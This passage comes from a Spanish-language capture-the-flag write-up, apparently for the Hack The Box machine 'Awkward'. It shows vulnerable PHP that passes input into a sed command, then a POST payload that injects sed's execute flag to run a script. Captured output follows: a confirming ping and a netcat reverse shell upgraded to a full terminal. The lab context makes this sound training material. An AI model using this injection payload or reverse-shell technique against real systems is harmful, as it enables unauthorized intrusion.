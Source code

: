 ```null
if(checkValidItem("{$STORE_HOME}cart/{$user_id}")) {
    system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");
    echo "Item removed from cart";
`` 

El payload sería así:

```null
POST /cart_actions.php HTTP/1.1
Host: store.hat-valley.htb
Content-Length: 49
Authorization: Basic YWRtaW46MDE0bXJiZWFucnVsZXMhI1A=
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://store.hat-valley.htb
Referer: http://store.hat-valley.htb/cart.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

item=1'+-e+"1e+/tmp/test.sh"+'&user=a03e-e3bf-4d6-0108&action=delete_item
```

```null
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 27 Mar 2023 09:59:04 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 22

Item removed from cart
```

Recibo el ping

```null
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
10:05:01.867846 IP 10.10.11.185 > 10.10.16.2: ICMP echo request, id 2, seq 1, length 64
10:05:01.867906 IP 10.10.16.2 > 10.10.11.185: ICMP echo reply, id 2, seq 1, length 64
```

Me envío una reverse shell

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.185] 36464
bash: cannot set terminal process group (1406): Inappropriate ioctl for device
bash: no job control in this shell
www-data@awkward:~/store$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@awkward:~/store$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@awkward:~/store$ export TERM=xterm
www-data@awkward:~/store$ export SHELL=bash
www-data@awkward:~/store$ stty rows 55 columns 209
```